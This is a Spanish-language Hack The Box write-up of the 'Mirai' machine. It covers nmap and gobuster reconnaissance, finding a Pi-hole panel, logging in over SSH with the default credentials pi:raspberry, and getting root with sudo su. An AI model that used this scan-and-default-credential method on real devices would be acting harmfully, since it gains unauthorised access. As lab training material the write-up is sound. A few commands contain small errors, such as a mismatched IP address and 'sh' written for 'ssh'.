 ```yaml
---
layout: single
title: HTB-Mirai
excerpt: "WriteUp de la máquina HTB Mirai -- Type: Easy"
date: 2022-03-29
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/mirai/miraiicon.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```


<centre><img src="/assets/images/mirai/miraiicon.png"></centre>

[Maquina](https://app.hackthebox.com/machines/64) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.48 
```

```bash
Nmap scan report for 10.10.10.48
Host is up (0.038s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Al comprobar que el puerto 80 esta abierto, nos disponemos a ver que se encuentra en él. Cuando entramos se encuentra en blanco, pero podemos usar la herramienta **dirbuster** para explorar el servidor web en busqueda de firectorios y ficheros en el.

Comando:
```bash
gobuster dir --url http://10.10.29.96/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

Resultados:
```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.48/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/29 12:27:48 Starting gobuster in directory enumeration mode
===============================================================
/_framework/blazor.webassembly.js (Status: 200) [Size: 61]
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/swfobject.js         (Status: 200) [Size: 61]                               
                                                                             
===============================================================
2022/03/29 12:28:10 Finished
===============================================================
```

Al ver los resultados comprobamos que tiene un directorio **/admin** al cual comprobaremos si hay algo.

<centre><img src="/assets/images/mirai/pihole.png"></centre>

Nos encontramos que hay un panel de administracion llamado **Pi-Hole**
lo cual nos da una pista de que nos estamos enfrentando a un SO Raspbian.


## Explotación
Ahora que sabemos a que nos enfrentamos y la "temática" de la maquina, en la botnet de **Mirai** usaban usuarios y credenciales por defecto y las de un dispositivos con este SO son:

```txt
pi:raspberry
```

Intentamos conectarnos por SSH con estas credenciales.

```bash
sh pi@10.10.10.48 
```

Y vemos que nos da acceso a la shell de la máquina.

```bash
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:TL7joF/Kz3rDLVFgQ1qkyXTnVQBTYrV44Y2oXyjOa60.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ 
```

Usamos el comando **sudo su** para elevar privilegios y con ello ser root

```bash
pi@raspberrypi:~ $ sudo su
root@raspberrypi:/home/pi# 
```